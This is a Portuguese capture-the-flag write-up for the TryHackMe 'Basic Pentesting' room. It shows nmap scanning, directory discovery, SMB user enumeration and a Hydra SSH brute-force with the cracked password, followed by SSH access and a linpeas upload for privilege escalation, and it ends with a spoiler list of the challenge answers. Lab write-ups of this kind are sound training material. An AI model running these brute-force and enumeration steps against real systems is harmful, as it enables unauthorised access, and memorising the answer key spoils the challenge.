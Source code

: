 # Relatório da sala [Basic Pentesting](https://tryhackme.com/r/room/basicpentestingjt)

## IP alvo: 10.10.58.148

## Informações Importantes:
Versão do Apache da WEB: Apache/2.4.18 (Ubuntu) Server at 10.10.58.148 Port 80

Utilizando nmap, descobrimos essas portas abertas:
```
Portas abertas:
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13?
8080/tcp open  http-proxy
```
## Ferramentas Utilizadas 
Usando a ferramenta **Dirb** no IP do alvo, descobrimos um diretório http://10.10.58.148/development/ no qual tem informações importantes.

No diretório tem um arquivo dev.txt com o seguinte texto:
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J

Outro arquivo J.txt foi encontrado:

For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```
Neste .txt, descobrimos que um serviço SMB foi configurado, com isso, utilizando a ferramenta **enum4linux**, foi feita a enumeração de informações de sistema Windows e Samba, após finalizar, essas informações foram coletadas:
```
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```
Descobrimos dois usuários: **Kay** e **Jan**

Utilizando **Hydra**, realizamos um ataque de bruteforce para o password de Jan para acessar via SSH o serviço
Wordlist utilizada: **rockyou.txt**
```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.58.148
[22][ssh] host: 10.10.58.148   login: jan   password: armando
```

Com este user e senha, podemos acessar via SSH a máquina. ssh jan@10.10.58.148

Utilizando a ferramenta **lianPEAS**, podemos escalar previlégios no sistema.
foi passado o lianpeas via scp ```{scp /home/kali/hacking_tools/linpeas.sh jan@.10.10.58.148}```
<details>
<summary>Respostas do Desafio</summary>

1. **development**
2. **jan**
3. **armando**
4. **SSH**
5. **kay**
6. **heresareallystrongpasswordthatfollowsthepasswordpolicy**

</details>
